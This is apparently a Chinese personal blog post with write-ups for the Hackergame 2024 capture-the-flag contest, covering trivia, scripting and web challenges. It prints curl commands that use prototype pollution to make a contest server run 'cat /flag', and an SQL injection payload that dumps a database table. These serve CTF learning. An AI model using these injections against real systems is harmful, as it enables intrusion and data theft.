





+++
title = "2024 中科大信息安全大赛题解"
date = "2024-11-12"
description = "第十一届中科大信息安全大赛（Hackergame 2024）的经历与题解"
tags = [
    "信息安全",
]
image = "show.jpg"
+++

又到了更新年更系列的时间，真没想到今年组委会还在 go（好吧，其实我也是，本文头图同样来源于此）。对我来说，今年花在比赛上的时间明显比往年少了，一方面是因为刚旅游回来太累了，而另一方面则是在 LLM 的帮助下一些简单的题目不再需要更多的时间来解决了。今年只拿了 1850 分，与[上一年](https://viflythink.com/Hackergame_2023_writeups/)相比算是退步了，依旧在三百名左右徘徊，只能说我才是最该多练习的人（笑）。

# 签到
今年的签到题又选了某知名手游来玩梗，要求在 60 秒内输入 12 种不同语言的启动，作为 CTF 玩家那肯定不会傻傻按照这个要求来做的，随便输入点什么然后点击下面的“等不及了，马上启动！”，看到跳转的 URL 有一个 pass 参数，将参数值改为 true，搞定。



# 喜欢做签到的 CTFer 你们好呀
Sodayo，我最喜欢做签到了，不过怎么又是选了某个手游作为题图玩梗（虽然跟签到不是同一个）。

搜索中科大 CTF 战队招新找到了[相关文章](https://github.com/Nebula-CTFTeam/Recruitment-2024)，琢磨了一会后得出结论除非这题考隐写术或者挖 Git 提交历史不然这里应该没什么好挖的，然后找到了[战队主页](https://nebuu.la/)，居然是模拟终端进行交互的网页，随手试了几个指令后发现 `env` 给出了第一个 flag：



至于另一个 flag，找不到什么思路，想到这是 web 题，尝试在前端代码里搜索 flag，发现了惊喜：



第一个结果看上去是 `ls` 列出的结果，用 `ls -a` 列出所有项目试试：



# 猫咪问答（Hackergame 十周年纪念版）
又见到考验信息检索能力的题目，还是十周年纪念版呢。

第一小题，搜索“中科大信息安全大赛 2015”找到一篇报道：[中国科学技术大学2015信息安全大赛圆满结束](https://tengdahuanbao.com/html/20151211c6485a87199page.html)，其中提到：

> 主办方在10月17号晚在3A204举办了一场赛前培训

第二小题暴力破解，搜近五年的 Hackergame 新闻稿并查找里面的注册参加人数，最后发现答案是 2019 年的 Hackergame，人数是 2682。*PS：怎么近两年的 Hackergame 新闻稿都没有精确的注册参加人数。*

第三小题从问题来看这应该能从 [Hackergame 2018 的猫咪问答题解](https://github.com/ustclug/hackergame2018-writeups/blob/master/official/ustcquiz/README.md) 找到答案，而且给了提示：仅由中文汉字构成，所以答案是程序员的自我修养。

第四小题搜索“USENIX Security ustc”并把时间限定在今年就能找到[对应论文](https://www.usenix.org/system/files/usenixsecurity24-ma-jinrui.pdf)，不想看论文所以把 PDF 丢给 LLM 得到答案：336。

第五小题，可能有不少人都知道这个最近发生的争议性很大的新闻，此事掀起了新一轮有关开源与地缘政治之间关系的讨论，正好之前看到的[对应报道](https://lwn.net/Articles/995186/)有附上[这个提交的链接](https://git.kernel.org/linus/6e90b675cf94)，得到答案：6e90b6。

第六小题，跑不起来 LLM 的童鞋怎么办呢，先尝试一下搜索引擎吧。谷歌输入 llama 3 tokenizer 后有个候选结果：llama 3 tokenizer online，搜索这个然后随便选择[一个网站](https://token-counter.app/meta/llama-3)，把猫咪问答页面 HTML 复制粘贴上去，计算出来的 token count 是 1812，提交结果发现不对，那就靠[脚本](https://gist.github.com/vifly/67e439ac69eff8c4c6ae94fe2ca92b15#file-cat_answers-py)暴破吧，最后得到的答案是 1833。

# 打不开的盒
既然题目都这样说了，那先尝试打开这个 3D 模型看看吧，随手找了一个软件：[fstl](https://github.com/fstl-app/fstl)，变换角度后看到了 flag：


*PS：脖子快扭了，以及对于这个 flag：flag{Dr4W_Us!nG_fR3E_C4D!!w0W}，只能说 free CAD 我还真没用过。*

# 比大小王
本题来源于今年一堆人在小猿口算里欺负小学生的事情（无语），看来出题人也想让大家体会一下寻找口算平台漏洞的快乐，原以为是可以像当时的小猿口算那样直接篡改分数，分析了一下前端代码后发现不行，那解题思路就只剩下把题目全自动化求解然后提交，正好适合萌新入门自动化脚本，唯一要注意的事情是求解完后要等九秒再提交，不然会出现“检测到时空穿越”的错误（上一年是不是见过这个😂），代码[在这里](https://gist.github.com/vifly/67e439ac69eff8c4c6ae94fe2ca92b15#file-hack_compare-py)。

# 旅行照片 4.0
没想到今年还有社会工程学题目，只能说挖信息的方法真是多种多样啊。虽说已经连续几年见到旅行照片了，不过今年还是只完成了最简单的部分。

## 题目 1-2
第一小题考虑到校门数量也不多，直接暴破吧，得到答案：东校区西门。第二小题搜索“中科大2024ACG音乐会日期”就能获得答案：20240519。

# Node.js is Web Scale
从本题开始进入真正的 web 安全领域了，我对 JS 不怎么熟悉，后端代码里虽说有一行“Run commands which are constant and obviously safe.”这样有暗示性的注释，但我也不知道怎么利用，把代码丢给 LLM 让其分析有什么可利用的地方，直接找到了关键点：可以通过原型链污染添加任意指令。我只能表示居然还能这么玩😦，JS 真是太神奇了。执行以下两条指令即可：

```Bash
curl -X POST "https://<REPLACE_IT>.hack-challenge.lug.ustc.edu.cn:8443/set" -H "Content-Type: application/json" -d '{"key": "__proto__.flag", "value": "cat /flag"}'
curl "https://<REPLACE_IT>.hack-challenge.lug.ustc.edu.cn:8443/execute?cmd=flag"
```

# PaoluGPT
既然给了后端源码那肯定要先读一遍，发现 view 函数里有不对劲的地方：

```Python
results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
```

这个 SQL 语句居然用字符串操作，我立刻就想到了通过 SQL 注入直接拖库，询问 LLM 得到只要构造出 `select title, contents from messages where id = '114514' or 1=1` 这样的语句就可以拿到 messages 表里的全部行了，至于原来字符串里的 ' 如何解决呢，用[注释](https://book.hacktricks.xyz/pentesting-web/sql-injection#comments)把第二个 ' 给注释掉就行。兴高采烈的我尝试了将 conversation_id 设置为 `114514' OR 1=1 --` 后发送请求，然后发现只返回了第一条，再次阅读代码发现是查询数据库用了 fetchone，只能返回一行。那就只能写个[脚本](https://gist.github.com/vifly/67e439ac69eff8c4c6ae94fe2ca92b15#file-hack_paolugpt-py)遍历全部行来拖库了，执行脚本然后在保存的文件里查找 flag 得到本题的两个 flag。第二个 flag 需要注意 HTML 转义，其应当为 flag{enJ0y_y0uR_Sq1_&_1_would_xiaZHOU_hUI_guo_abeff7b2f2}。

# 惜字如金 3.0
又碰到了熟悉的惜字如金，上一年就是靠它拿到了一点 math 题的分数，今年看来也是这样。

## 题目 A
我不知道这算 math 题吗，唯一的难点应该是有些童鞋不熟悉 Python 语法。选一个带语法高亮的编辑器打开文件并添加字符修复语法错误就行，题目甚至还很贴心地提醒你最后结果应当是每行有 80 个字符，用 Kate 编辑完成并保存后发现它在保存时自动把填充的空格去掉了，又写了个[脚本](https://gist.github.com/vifly/67e439ac69eff8c4c6ae94fe2ca92b15#file-padding-py)把每一行自动填充到 80 个字符，提交拿到 flag。这里附上[还原后的 answer_a.py](https://gist.github.com/vifly/67e439ac69eff8c4c6ae94fe2ca92b15#file-original_answer_a-py)。

# 不太分布式的软总线
看到题目，作为 Fcitx5 输入法贡献者的我瞬间开始兴奋了：这个我知道。D-Bus 作为 Linux 上常见的一种 IPC（进程间通信）手段，在很多你没有注意到的地方都有所应用，例如在 X11 下 Fcitx 主要就是通过 D-Bus 与其它应用进行通信，由作为客户端的应用发送按键等数据到作为服务端的 Fcitx，然后 Fcitx 负责返回候选词等事项，具体代码在[这里](https://github.com/fcitx/fcitx5/tree/master/src/frontend/dbusfrontend)。当然，Fcitx 还通过 D-Bus 注册了其它的方法，例如各位使用 Fcitx5 的童鞋可以通过 `dbus-send --session --print-reply --dest=org.fcitx.Fcitx5 /controller org.fcitx.Fcitx.Controller1.DebugInfo` 来查看当前与 Fcitx5 通信的应用及其使用的前端（Fcitx5 支持的所有前端在[此](https://github.com/fcitx/fcitx5/tree/master/src/frontend)查看）。

如何在自己的应用中使用 D-Bus 呢，只要理解作为接收方怎样做才能接收到消息就行。作为接收方，你通常需要有 name、object、interface 等并注册才能收到消息，它们的关系如下图：



因上图没有体现出来，这里补充一下，每个 interface 都可以有多个属于自己的 property、method、signal，以及 name 是全局唯一的。

现在用刚学到的知识来从发送端的角度理解一下上面的 Fcitx5 的例子：`org.fcitx.Fcitx5` 就是 name（可以理解为监听的地址），`/controller` 是 object（更准确来说是 object path），而 `org.fcitx.Fcitx.Controller1.DebugInfo` 则是 method。还有一点要注意，`--session` 参数指示 dbus-send 把消息发送到 session 总线上，与之相对的是 `--system` 参数，顾名思义它会把消息发送到系统总线，按[这里](https://elmarco.pages.freedesktop.org/dbus-page/docs/getting-started/)的说法系统总线是总是可以被访问的。

现在我们开始看本题的源码（flagserver.c），可以看到其监听系统总线（说明我们给其发送的消息总是可达的）并且注册的 name 为 `cn.edu.ustc.lug.hack.FlagService`：

```C
owner_id =
      g_bus_own_name(G_BUS_TYPE_SYSTEM, "cn.edu.ustc.lug.hack.FlagService",
                     G_BUS_NAME_OWNER_FLAGS_NONE, on_bus_acquired,
                     on_name_acquired, on_name_lost, NULL, NULL);
```

注册的 object path：

```C
g_dbus_connection_register_object(connection,
                                    "/cn/edu/ustc/lug/hack/FlagService",
                                    introspection_data->interfaces[0],
                                    &interface_vtable, NULL, /* user_data */
                                    NULL, /* GDestroyNotify */
                                    &error);
```

至于 method 则是在 xml 字符串里，这里就不贴了。

## What DBus Gonna Do?
要求传入一个特定的字符串：

```C
if (!g_variant_is_of_type(parameters, G_VARIANT_TYPE("(s)"))) {
      return respond_error_msg(invocation, "Give me a string, please.");
    }
```

按照 [dbus-send 的文档](https://dbus.freedesktop.org/doc/dbus-send.1.html)可以构造出来以下指令：

```Bash
dbus-send --system --print-reply --dest=cn.edu.ustc.lug.hack.FlagService /cn/edu/ustc/lug/hack/FlagService cn.edu.ustc.lug.hack.FlagService.GetFlag1 string:"Please give me flag1"
```

将其保存为 shell 文件并上传就搞定了，与 Fcitx5 的例子相比也就多了一个需要传入的参数，应该不难理解。

## If I Could Be A File Descriptor
要求必须是文件描述符：

```C
if (!g_variant_is_of_type(parameters, G_VARIANT_TYPE("(h)"))) {
      return respond_error_msg(invocation,
                               "Give me a file descriptor, please.");
    }
```

而在 [dbus-send 的文档](https://dbus.freedesktop.org/doc/dbus-send.1.html) 列举出来的支持的数据类型中并不包括文件描述符，所以只能写 C 语言代码了。

还注意到代码里会检测文件描述符是否存在于文件系统：

```C
g_snprintf(path, sizeof(path), "/proc/self/fd/%d", fd);
gchar *link = g_file_read_link(path, NULL);
if (link != NULL) {
  if (g_strstr_len(link + 1, -1, "/") != 0) {
    return respond_error_msg(
        invocation, "Please don't give me a file on disk to trick me!");
  }
}
```

我从来没觉得写 C 快乐过，把这些需求丢给 LLM，其给出了使用 socket pair 的办法，代码在[此](https://gist.github.com/vifly/67e439ac69eff8c4c6ae94fe2ca92b15#file-dbus_2-c)，运行以下指令编译然后上传：

```Bash
gcc dbus_2.c `pkg-config --cflags --libs gio-2.0` -o dbus_2
```

# 总结
今年的 SQL 和 D-Bus 题还是玩的很开心的，前者尝试构造 payload 的过程还是相当有趣的，而 D-Bus 的话正好是我之前想写的内容。另外 PowerfulShell 是相当令我残念的一道题，都已经找到 `$-` 和 `$_` 这样的变量了，就是没想到要赋值给 `_1` 这样的变量。可惜今年毕竟投入的时间不多，看到 C 和汇编基本都是绕路走，像是 D-Bus 的第三小题都懒得看了，事后看题解发现也不难，不知道明年是否会有更多的时间来玩呢，我们下一年再见吧。
